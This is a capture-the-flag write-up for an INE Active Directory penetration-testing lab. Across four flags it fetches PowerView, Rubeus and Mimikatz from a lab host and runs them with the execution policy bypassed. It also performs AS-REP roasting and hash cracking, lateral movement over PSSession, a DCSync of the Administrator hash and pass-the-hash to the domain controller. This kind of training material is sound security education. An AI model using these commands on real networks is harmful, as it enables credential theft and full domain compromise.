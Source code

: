 INE - eCPPTv3 - Active Directory Penetration Testing CTF 1


# 1. flag:

You start on machine named Client with the user student.

RDP on the desktop has the target host target.research.security.local saved, with the username set as bobby. Tried the example password password1—successfully logged in.

# 2. flag:

Lets AS-REP Roast.

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/PowerView.ps1" -Outfile mimi.ps1
powershell -ep bypass
. .\PowerView.ps1
```

List users with DONT_REQ_PREAUTH:
```
Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
```

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/Rubeus.exe" -Outfile Rubeus.exe
.\Rubeus.exe asreproast /user:johnny /outfile:johnhash.txt
```

```
.\johnTheRipper\john-1.9.0-jumbo-1-win64\run\john.exe .\johnhash.txt --format=krb5asrep -wordlist=.\10k-worst-pass.txt
```

RDP in with johhny for next flag.


# 3. flag:

On CLIENT macine:

```
powershell -ep bypass
. .\PowerView.ps1
Find-LocalAdminAccess
```

 Access the **seclogs.research.SECURITY.local** machine:
 
```
Enter-PSSession seclogs.research.SECURITY.local
```

# 4. flag:

Let’s pivot to the domain controller (prod.research.security.local)—identified via the output of:
nslookup -type=srv _ldap._tcp.dc._msdcs.research.security.local.

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/Invoke-Mimikatz.ps1" -Outfile mimi.ps1
. .\mimi.ps1

[seclogs.research.SECURITY.local]: PS C:\Users\student.RESEARCH\Documents> Invoke-Mimikatz -Command '"privilege::debug"
"token::elevate" "lsadump::dcsync /domain:research.security.local /user:"CN=Administrator,CN=Users,DC=research,DC=security,DC=l
ocal""'

```

On CLIENT

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:38a...b81d9 /run:powershell.exe"'
```

Now, access the Domain Controller:
```
Enter-PSSession prod.research.SECURITY.local
```
That's it.
